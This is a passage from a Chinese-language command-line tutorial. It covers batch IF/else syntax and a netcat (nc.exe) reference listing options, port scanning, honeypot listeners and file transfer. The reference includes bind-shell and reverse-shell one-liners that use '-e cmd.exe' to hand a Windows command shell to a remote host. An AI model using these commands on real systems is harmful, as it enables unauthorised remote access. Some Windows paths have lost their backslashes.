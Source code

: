 　　IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. <del test.txt.> else echo test.txt.missing ”，注意命令中的“.”

　　系统外部命令

　　注：系统外部命令(均需下载相关工具)

　　瑞士军刀：nc.exe

　　参数说明：

　　-h 查看帮助信息

　　-d 后台模式

　　-e prog程序重定向，一但连接就执行[危险]

　　-i secs延时的间隔

　　-l 监听模式，用于入站连接

　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C

　　-n IP地址，不能用域名

　　-o film记录16进制的传输

　　-p[空格]端口 本地端口号

　　-r 随机本地及远程端口

　　-t 使用Telnet交互方式

　　-u UDP模式

　　-v 详细输出，用-vv将更详细

　　-w数字 timeout延时间隔

　　-z 将输入，输出关掉（用于扫锚时）

　　基本用法：

　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口

　　nc -l -p 80 开启本机的TCP 80端口并监听

　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口

　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口

　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口

　　高级用法：

　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止

　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt

　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用

　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
